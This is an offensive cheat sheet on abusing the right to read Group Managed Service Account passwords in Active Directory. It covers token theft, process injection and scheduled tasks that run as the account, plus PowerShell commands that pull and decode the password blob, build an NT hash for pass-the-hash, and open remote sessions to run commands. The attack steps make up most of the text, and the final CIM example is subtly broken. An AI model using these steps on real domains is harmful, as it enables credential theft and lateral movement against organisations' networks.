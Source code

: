 ### Abusing the Ability to Read GMSA Passwords

#### Overview
There are several ways to abuse the ability to read the Group Managed Service Account (gMSA) password. These methods exploit the intended behavior of gMSAs when they are logged on to computers or when you have access to their credentials. Below is a professional, streamlined cheat sheet outlining these methods and their execution.

---

### Abuse Scenarios

#### 1. GMSA Logged On to a Computer
- **Description**: If the gMSA is currently logged on to a computer account with permission to retrieve its password:
  - **Action**: Steal the token from the process running as the gMSA.
  - **Alternative**: Inject into the process running as the gMSA.

#### 2. GMSA Not Logged On to a Computer
- **Description**: If the gMSA is not logged on to a computer:
  - **Action**: Create a scheduled task or service to run as the gMSA.
  - **Execution**: The computer account will start the task or service as the gMSA, allowing you to abuse the gMSA logon in the same manner as a standard user.
  - **Reference**: See the "HasSession" help modal for additional details on this technique.

---

### Methods to Retrieve gMSA Passwords

#### **Using Active Directory and DSInternals PowerShell Modules**

1. Save the gMSA password blob to a variable:
   ```powershell
   $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
   $mp = $gmsa.'msDS-ManagedPassword'
   ```

2. Decode the data structure using the DSInternals module:
   ```powershell
   ConvertFrom-ADManagedPasswordBlob $mp
   ```

3. Build an NT-Hash for Pass-the-Hash (PTH):
   ```powershell
   (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
   ```

4. Alternatively, create a Credential Object with the plain password:
   ```powershell
   $cred = New-Object System.Management.Automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
   ```

---

### Using Credentials

#### **Option 1: Create a New Session**
1. Start a new session:
   ```powershell
   $session = New-PSSession -ComputerName 127.0.0.1 -Credential $cred
   ```

2. Enter the session:
   ```powershell
   Enter-PSSession -Session $session
   ```

3. Run commands remotely:
   ```powershell
   Invoke-Command -Session $session -ScriptBlock { whoami; hostname }
   ```

#### **Option 2: Run Commands via CIM**
1. Build the command:
   ```powershell
   $Command = 'whoami'
   Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
   ```
